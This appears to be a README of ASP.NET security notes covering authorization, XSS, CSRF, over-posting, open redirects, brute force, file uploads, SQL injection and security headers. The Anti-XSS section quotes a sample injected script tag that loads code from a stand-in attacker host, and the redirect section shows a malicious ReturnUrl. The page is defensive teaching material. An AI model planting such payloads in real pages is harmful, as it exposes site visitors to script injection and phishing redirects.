 [Visual Studio Tool](https://security-code-scan.github.io/)


[Web Goat](https://github.com/OWASP/WebGoat.NET/zipball/master)

---

* Authentication
* Authorization
* Anti XSS (Cross Site Scripting)
* CSRF (Cross Site Request Forgery)
* Cookie Stealing
* Over Posting
* Preventing Open Redirection Attacks
* Blocking Brute Force Attacks
* File Upload Protection
* Prevent SQL Injection in ADO.NET and Entity Framework 6.0
* Using a Dedicated Error Logging API
* General Security Recommendations

---
[https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/DotNet_Security_Cheat_Sheet.md](Official Cheetsheet)

---
#Authentication



---
#Authorization
```
[Authorize(Users = "admin,jsmith")] 
public ActionResult AddArticle() 
{ 
 return View(); 
} 
```
---
#Anti XSS

* The ASP.NET Request Validation should be Enabled all the time
* Ensure URL query string is encoded
* Ensure content sanitization is enabled to prevent adding scripts and untrusted attributes in the HTML content (you can use the AntiXSS library from nuget)
```
This is a nice post</div><script>src=http://hackingsite.com/badscript.js</script>
```
# CSRF (Cross Site Request Forgery)

 Cross-Site Request Forgery (CSRF) is an attack where a malicious site sends a request to a vulnerable site where the user is currently logged in.
```c#

@using (Html.BeginForm("Register", "Account", FormMethod.Post, new { @class = "form-horizontal" }))
{
  @Html.AntiForgeryToken()
}

This will output something like the following:
<form action="/Account/Register" class="form-horizontal" method="post">
 <input name="__RequestVerificationToken" type="hidden" value="sK0JeZQqjaazgtWM5SYPXHhng0CoEWrpE_MWyiajpmDPKL2rjSoUpQAhEYoo1" />
 <!-- rest of form goes here -->
</form>
```


---
# Over Posting
ie
```
public async Task<IActionResult> Create([Bind("First,Last")] Person person)

```
```
public class Person
{
  public int ID { get; set; }
  public string First { get; set; }
  public string Last { get; set; }
  public bool IsAdmin { get; set; }
}

```
# Redirect Attacks
```
/Account/Login?ReturnUrl=%2FHome%2FIndex.
```
```
http://www.mydomain.com?ReturnUrl=www.fakedomain.com
```
prevent by 
```
return RedirectToLocal(returnUrl);
```
# Blocking Brute Force Attacks

* Lock user account after specific number of login attempts
* Enable Google reCAPTCHA on Login page
---
# File Upload Protection
* The file to be uploaded should be validated against a white-list extensions
* Restrict the maximum file size
* Disallow uploading executable files
---
# Prevent SQL Injection in ADO.NET and EF 6.0 (Entity Framework 6.0)
* Input validation (constrain and sanitize input data). Check for bad input data by validating the type and format of the data
* Use SQL stored procedures for data access. The dynamic construction of SQL statements is being protected with the use of type-safe SQL parameters for data access
* Avoid using an over-privileged database login
* Avoid disclosing database error information, the actual error is logged in log file and the user is being redirected to a custom error page. Never display the actual error information
* Encrypt the SQL connection to protect sensitive data: The Entity Framework does not directly handle data encryption. If users access data over a public network, your application should establish an encrypted connection to the data source to increase security

---
# General Security Recommendations

* Enable the response header “Content-Security-Policy”
* Enable the response header "X-Content-Type-Options"
* Enable the response header "X-XSS-Protection”
* Block XFS attacks (Cross-Frame Scripting) by enabling the response header “X-Frame-Options”
* Prevent disclose the server information and the .NET framework information from the response header. The following headers should be removed from the response:
    * Server - Specifies web server version (IIS version)
    * X-Powered-By - Indicates that the website is "powered by ASP.NET."
    * X-AspNet-Version - Specifies the version of ASP.NET used.

---
# References
 * [http://msdn.microsoft.com/en-us/security/default.aspx](Microsoft Security Developer Center	)


* [http://www.wrox.com/WileyCDA/WroxTitle/Beginning-ASP-NETSecurity.productCd-0470743654.html](Book: Beginnning ASP.NET Security (Barry Dorrans)	
)

* [http://www.troyhunt.com/2010/05/owasp-top-10-for-net-developers-part-1.html](Free e-book: OWASP Top 10 for .NET Developers	)

	
*  [http://antixss.codeplex.com/](AntiXSS)

*  [http://blogs.msdn.com/securitytools](Microsoft Information Security Team)

* [http://www.owasp.org/](Open Web Application Security Project

